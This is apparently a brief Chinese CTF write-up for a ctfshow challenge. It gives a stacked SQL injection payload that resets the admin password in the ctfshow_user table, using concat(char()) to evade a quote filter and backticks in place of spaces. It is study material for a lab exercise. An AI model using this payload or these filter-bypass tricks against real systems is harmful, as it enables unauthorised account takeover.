

# 知识点
# 思路
运用堆叠注入update更行admin的pass值，字符串用concat(char())代替绕过单双引号的过滤，空格过滤用反引号绕过
```python
0;update`ctfshow_user`set`pass`=concat(char(48),char(49))where`username`=concat(char(97),char(100),char(109),char(105),char(110));
```
再输入concat(char(97),char(100),char(109),char(105),char(110)) -> 'admin'     pass -> 01成功获得flag<br />
